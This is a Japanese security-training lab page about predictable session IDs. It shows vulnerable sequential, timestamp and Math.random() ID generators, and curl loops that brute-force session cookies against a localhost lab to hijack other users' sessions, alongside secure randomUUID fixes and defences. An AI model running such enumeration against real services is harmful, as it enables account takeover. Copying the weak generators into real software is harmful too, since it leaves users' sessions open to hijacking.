


import { PredictableSessionIdLab } from '@site/src/components/labs/step04/PredictableSessionIdLab';

# Predictable Session ID — 推測可能なセッションID

> セッションIDが弱い乱数やパターンで生成されているために、攻撃者がIDを推測・列挙して他人のセッションを乗っ取る脆弱性を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | セッション ID の生成に連番、タイムスタンプ、`Math.random()` などの予測可能な値を使用しているため、攻撃者がセッション ID を推測・総当たりして他ユーザーのセッションを乗っ取れる |
| **攻撃例** | `for i in $(seq 1000 1100); do curl -b "session_id=$i" http://localhost:3000/api/labs/predictable-session-id/vulnerable/profile; done` |
| **技術スタック** | Hono API + Cookie セッション管理 |
| **難易度** | ★★☆ 中級 |
| **前提知識** | セッション管理の基本、乱数生成の概念 |

---

## この脆弱性を理解するための前提

### セッション ID の役割と要件

セッション ID は、サーバーがユーザーを識別するための一意な文字列である。ユーザーがログインすると、サーバーはセッション ID を発行し、以降のリクエストでその ID によって「誰がアクセスしているか」を判定する。

```
ログイン成功時:
Set-Cookie: session_id=f47ac10b-58cc-4372-a567-0e02b2c3d479; Path=/; HttpOnly

以降のリクエスト:
GET /api/profile
Cookie: session_id=f47ac10b-58cc-4372-a567-0e02b2c3d479
→ サーバーがこの ID でセッションストアを検索 → ユーザーを特定
```

セッション ID はパスワードと同等の価値を持つため、以下の要件を満たす必要がある:

- **十分なエントロピー（ランダム性）**: 推測が計算上不可能であること（最低128ビットのエントロピー）
- **暗号論的安全性**: 過去の出力から次の出力を予測できない乱数生成器を使用すること
- **一意性**: 同じ ID が複数のセッションに割り当てられないこと

### どこに脆弱性が生まれるのか

開発者が「一意であればよい」と考え、暗号論的安全性を無視したセッション ID 生成を実装する場合に脆弱性が生まれる。連番、タイムスタンプ、`Math.random()` はいずれも予測可能である。

```typescript
// ⚠️ この部分が問題 — 予測可能なセッションID生成

// パターン1: 連番（最も危険）
let sessionCounter = 1000;
function generateSessionId_sequential() {
  return String(sessionCounter++);
  // → "1000", "1001", "1002", ...
  // 攻撃者は次のIDが容易に推測できる
}

// パターン2: タイムスタンプベース（危険）
function generateSessionId_timestamp() {
  return String(Date.now());
  // → "1704067200000", "1704067200001", ...
  // 攻撃者はログイン時刻を推測してIDの範囲を絞り込める
}

// パターン3: Math.random()（危険）
function generateSessionId_weakRandom() {
  return String(Math.random());
  // → "0.7254839201648574"
  // Math.random() は暗号論的に安全ではなく、内部状態から次の出力を予測可能
}
```

`Math.random()` は一見ランダムに見えるが、内部で使われる疑似乱数生成器（xorshift128+ 等）の出力を複数回観測すれば、内部状態を復元して次の出力を予測できることが知られている。セッション ID のような秘密情報に使ってはならない。

---

## 攻撃の仕組み



### 攻撃のシナリオ

1. **攻撃者** がセッション ID の生成パターンを分析する

   攻撃者はまず自分のアカウントでログインし、発行されるセッション ID のパターンを観察する。複数回ログインして ID を収集し、規則性を分析する。

   ```bash
   # 攻撃者が複数回ログインしてセッションIDを収集
   curl -X POST http://localhost:3000/api/labs/predictable-session-id/vulnerable/login \
     -H "Content-Type: application/json" \
     -d '{"username": "attacker", "password": "password123"}' -v
   # → Set-Cookie: session_id=1042

   curl -X POST http://localhost:3000/api/labs/predictable-session-id/vulnerable/login \
     -H "Content-Type: application/json" \
     -d '{"username": "attacker", "password": "password123"}' -v
   # → Set-Cookie: session_id=1043

   # パターン発見: 連番！ 直前のIDは1041, 1040, ... のはず
   ```

2. **攻撃者** がセッション ID を列挙して総当たりする

   パターンを把握した攻撃者は、他のユーザーのセッション ID を推測し、片っ端からリクエストを送信する。連番の場合、自分の ID の前後の番号を試すだけでよい。タイムスタンプベースの場合、ログイン時刻の前後数秒を試す。

   ```bash
   # 連番の場合: 自分のIDの前後を総当たり
   for id in $(seq 1000 1050); do
     result=$(curl -s http://localhost:3000/api/labs/predictable-session-id/vulnerable/profile \
       -b "session_id=$id")
     if echo "$result" | grep -q "username"; then
       echo "有効なセッション発見: ID=$id → $result"
     fi
   done

   # タイムスタンプの場合: 推定時刻の前後を総当たり
   BASE_TIME=1704067200000
   for offset in $(seq -1000 1000); do
     id=$((BASE_TIME + offset))
     curl -s http://localhost:3000/api/labs/predictable-session-id/vulnerable/profile \
       -b "session_id=$id"
   done
   ```

3. **攻撃者** が他人のセッションを乗っ取る

   有効なセッション ID が見つかると、攻撃者はそのセッション ID を使って被害者としてサイトにアクセスする。サーバーからは正規のユーザーと区別できない。

   ```bash
   # 有効なセッションIDを発見
   curl http://localhost:3000/api/labs/predictable-session-id/vulnerable/profile \
     -b "session_id=1038"
   # → 200 OK: { "username": "alice", "email": "alice@example.com" }
   # alice のセッションを乗っ取り成功
   ```

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| セッション ID のエントロピーが低い | 連番やタイムスタンプでは探索空間が極めて小さく、総当たりが現実的な時間で成功する。連番なら数十回、タイムスタンプでも数千回の試行で済む |
| 暗号論的に安全でない乱数生成器の使用 | `Math.random()` は内部状態を復元可能であり、出力を数回観測すれば次の出力を予測できる |
| セッション ID 推測に対する防御がない | 無効なセッション ID での連続アクセスに対するレート制限やアカウントロックがなく、攻撃者が自由に総当たりできる |

### 被害の範囲

- **機密性**: 攻撃者が任意のアクティブセッションを乗っ取り、被害者のアカウント情報に完全アクセスできる。連番の場合、現在アクティブな全ユーザーのセッションが対象になりうる
- **完全性**: 乗っ取ったセッションでデータの変更、投稿の作成・削除、設定変更が可能。複数のセッションを同時に乗っ取れるため、大規模な改ざんが起こりうる
- **可用性**: 攻撃者が複数ユーザーのパスワードを一括変更し、サービスを利用不能にする大規模な攻撃が可能。セッション ID の列挙自体がサーバーに負荷をかけ、DoS につながることもある

---

## 対策



### 根本原因

セッション ID の生成に暗号論的に安全でない方法を使用していることが根本原因である。連番、タイムスタンプ、`Math.random()` はいずれも出力に規則性・予測可能性があり、セッション ID のような秘密情報の生成には不適切である。セッション ID には、計算上推測が不可能な暗号論的疑似乱数生成器（CSPRNG）を使用しなければならない。

### 安全な実装

Node.js の `crypto` モジュールが提供する `crypto.randomUUID()` や `crypto.getRandomValues()` は、OS のエントロピーソース（`/dev/urandom` 等）を使った暗号論的に安全な乱数を生成する。これらの出力は過去の値から次の値を予測することが計算上不可能であり、セッション ID として安全に使用できる。

```typescript
import { randomUUID, randomBytes } from 'node:crypto';

// ✅ crypto.randomUUID() — 128ビットのエントロピーを持つ UUID v4
function generateSessionId_secure_uuid(): string {
  return randomUUID();
  // → "f47ac10b-58cc-4372-a567-0e02b2c3d479"
  // 2^122 通りの可能性 — 総当たりは計算上不可能
}

// ✅ crypto.randomBytes() — 任意のバイト長のランダムデータ
function generateSessionId_secure_random(): string {
  return randomBytes(32).toString('hex');
  // → "a3f2b8c9d1e4f5678901234567890abcdef0123456789abcdef0123456789ab"
  // 256ビットのエントロピー — さらに安全
}

// ✅ 安全なセッション生成を組み込んだログイン処理
app.post('/login', async (c) => {
  const { username, password } = await c.req.json();
  const user = await authenticateUser(username, password);

  // ✅ 暗号論的に安全なセッションID生成
  const sessionId = randomUUID();

  sessions.set(sessionId, {
    userId: user.id,
    username: user.username,
    createdAt: Date.now(),
  });

  setCookie(c, 'session_id', sessionId, {
    path: '/',
    httpOnly: true,
    secure: true,
    sameSite: 'Strict',
  });

  return c.json({ message: 'ログイン成功' });
});
```

`crypto.randomUUID()` が生成する UUID v4 は122ビットのランダム部分を持つ。これは約 5.3 x 10^36 通りの可能性があり、1秒間に10億回の試行を行っても、全ての組み合わせを試すには約1.7 x 10^20 年かかる。事実上、推測は不可能である。

#### 脆弱 vs 安全: コード比較

```diff
+ import { randomUUID } from 'node:crypto';

  app.post('/login', async (c) => {
    const user = await authenticateUser(username, password);
-   const sessionId = String(sessionCounter++);  // 連番 — 次のIDが自明
+   const sessionId = randomUUID();              // 暗号論的に安全な乱数
    sessions.set(sessionId, { userId: user.id });
    setCookie(c, 'session_id', sessionId, { path: '/', httpOnly: true });
  });
```

脆弱なコードでは `sessionCounter++` で連番を生成するため、攻撃者は自分のセッション ID から他人の ID を容易に推測できる。安全なコードでは `randomUUID()` が OS レベルの暗号論的乱数を使用するため、出力に規則性がなく、推測は計算上不可能になる。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| 暗号論的に安全な乱数生成器の使用 | 根本対策 | `crypto.randomUUID()` や `crypto.randomBytes()` を使い、推測不可能なセッション ID を生成する。これが最も重要な対策 |
| 十分なエントロピー（128ビット以上） | 根本対策 | セッション ID のランダム部分が最低128ビット以上のエントロピーを持つようにする。OWASP は128ビット以上を推奨 |
| レート制限 | 多層防御 | 無効なセッション ID での連続アクセスを検知し、IP ごとにレート制限をかける。総当たり攻撃の速度を大幅に低下させる |
| セッション ID の長さ検証 | 多層防御 | 認証ミドルウェアでセッション ID のフォーマット（UUID v4 形式等）を検証し、不正な形式のリクエストを早期に弾く |
| 総当たり検知・アラート | 検知 | 短時間に大量の無効セッション ID でのアクセスを検知し、攻撃者の IP をブロックする仕組みを導入する |

---

## ラボ体験

<PredictableSessionIdLab />

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: セッション ID が予測可能であることを確認し、他のユーザーのセッションを乗っ取れることを体験する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. テストユーザーを複数ログインさせ、セッション ID のパターンを観察する

   ```bash
   # alice でログイン
   curl -X POST http://localhost:3000/api/labs/predictable-session-id/vulnerable/login \
     -H "Content-Type: application/json" \
     -d '{"username": "alice", "password": "password123"}' -v 2>&1 | grep session_id
   # → Set-Cookie: session_id=1001

   # bob でログイン
   curl -X POST http://localhost:3000/api/labs/predictable-session-id/vulnerable/login \
     -H "Content-Type: application/json" \
     -d '{"username": "bob", "password": "password123"}' -v 2>&1 | grep session_id
   # → Set-Cookie: session_id=1002
   ```

3. パターンを分析する

   - セッション ID が連番（1001, 1002, ...）であることを確認
   - 次に発行される ID が `1003` であると推測できることを確認

4. 攻撃者のアカウントでログインし、自分の ID から他人の ID を推測する

   ```bash
   # 攻撃者でログイン
   curl -X POST http://localhost:3000/api/labs/predictable-session-id/vulnerable/login \
     -H "Content-Type: application/json" \
     -d '{"username": "attacker", "password": "password123"}' -v 2>&1 | grep session_id
   # → Set-Cookie: session_id=1003

   # 自分のIDの前の番号を試す
   curl http://localhost:3000/api/labs/predictable-session-id/vulnerable/profile \
     -b "session_id=1001"
   # → 200 OK: { "username": "alice", ... } — alice のセッションを乗っ取り！

   curl http://localhost:3000/api/labs/predictable-session-id/vulnerable/profile \
     -b "session_id=1002"
   # → 200 OK: { "username": "bob", ... } — bob のセッションも乗っ取り！
   ```

5. 結果を確認する

   - わずか数回の試行で他ユーザーのセッションを乗っ取れた
   - **この結果が意味すること**: セッション ID が予測可能であれば、パスワードを知らなくてもアカウントにアクセスできてしまう

### Step 2: 安全バージョンで防御を確認

**ゴール**: セッション ID が暗号論的に安全な乱数で生成され、推測が不可能であることを確認する

1. 安全なエンドポイントで複数回ログインし、セッション ID を観察する

   ```bash
   # alice でログイン
   curl -X POST http://localhost:3000/api/labs/predictable-session-id/secure/login \
     -H "Content-Type: application/json" \
     -d '{"username": "alice", "password": "password123"}' -v 2>&1 | grep session_id
   # → Set-Cookie: session_id=f47ac10b-58cc-4372-a567-0e02b2c3d479

   # bob でログイン
   curl -X POST http://localhost:3000/api/labs/predictable-session-id/secure/login \
     -H "Content-Type: application/json" \
     -d '{"username": "bob", "password": "password123"}' -v 2>&1 | grep session_id
   # → Set-Cookie: session_id=6ba7b810-9dad-11d1-80b4-00c04fd430c8
   ```

2. セッション ID にパターンがないことを確認する

   - 2つの UUID に規則性がないことを確認
   - 次の ID を推測する方法がないことを理解する

3. 総当たり攻撃を試みる

   ```bash
   # ランダムな UUID を生成して試すが、当然ヒットしない
   for i in $(seq 1 100); do
     random_uuid=$(cat /proc/sys/kernel/random/uuid)
     result=$(curl -s http://localhost:3000/api/labs/predictable-session-id/secure/profile \
       -b "session_id=$random_uuid")
     echo "試行 $i: $result"
   done
   # → 全て 401 Unauthorized
   ```

4. コードの差分を確認する

   - `backend/src/labs/step04-session/predictable-session-id.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: `sessionCounter++` vs `crypto.randomUUID()`
   - 生成される ID の探索空間の違い: 数千通り vs 5.3 x 10^36 通り

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] 連番やタイムスタンプがセッション ID として危険な理由は何か
- [ ] `Math.random()` が暗号論的に安全でない理由は何か（擬似乱数生成器の予測可能性）
- [ ] `crypto.randomUUID()` が安全な理由は何か（CSPRNG とエントロピーの観点から）
- [ ] セッション ID のエントロピーが128ビット以上必要とされる理由は何か（総当たりの計算量）

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/predictable-session-id/vulnerable/login`, `/api/labs/predictable-session-id/vulnerable/profile` |
| 安全エンドポイント | `/api/labs/predictable-session-id/secure/login`, `/api/labs/predictable-session-id/secure/profile` |
| バックエンド | `backend/src/labs/step04-session/predictable-session-id.ts` |
| フロントエンド | `frontend/src/labs/step04-session/pages/PredictableSessionId.tsx` |

- 脆弱版では3種類の生成パターン（連番、タイムスタンプ、`Math.random()`）を切り替えられるようにし、それぞれの危険性を体験させる
- デフォルトは連番モード（最も危険性が分かりやすい）
- 安全版では `crypto.randomUUID()` を使用
- 脆弱版のカウンターは1000から開始し、推測しやすくする
- セッション ID の一覧を返すデバッグエンドポイント（脆弱版のみ）を用意し、生成パターンの分析を容易にする

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2001 | PHP セッション ID 脆弱性 | 初期の PHP バージョンでセッション ID の生成に十分なエントロピーが使用されておらず、リモートからセッション ID を予測してセッションを乗っ取ることが可能だった。この問題が契機となり、PHP のセッション ID 生成アルゴリズムが改善された |
| 2012 | ASP.NET セッション ID 推測 | 特定の設定下で ASP.NET が生成するセッション ID のエントロピーが不十分であり、短時間の総当たりでセッションを乗っ取れる脆弱性が報告された（MS12-023） |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [Session Hijacking](./session-hijacking) | セッションハイジャックは「セッション ID を盗む」攻撃であり、推測可能なセッション ID は「盗まなくても推測できる」ためさらに危険。両方の対策が必要 |
| [Session Fixation](./session-fixation) | セッション固定は「攻撃者が知っている ID を被害者に使わせる」攻撃。推測可能なセッション ID はこの攻撃もさらに容易にする |
| [Token Replay](./token-replay.mdx) | 推測可能なセッション ID は一度推測されると、失効管理がなければ永続的に悪用される。両方の脆弱性が重なると被害が拡大する |

---

## 参考資料

- [OWASP - Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [CWE-330: Use of Insufficiently Random Values](https://cwe.mitre.org/data/definitions/330.html)
- [CWE-340: Generation of Predictable Numbers or Identifiers](https://cwe.mitre.org/data/definitions/340.html)
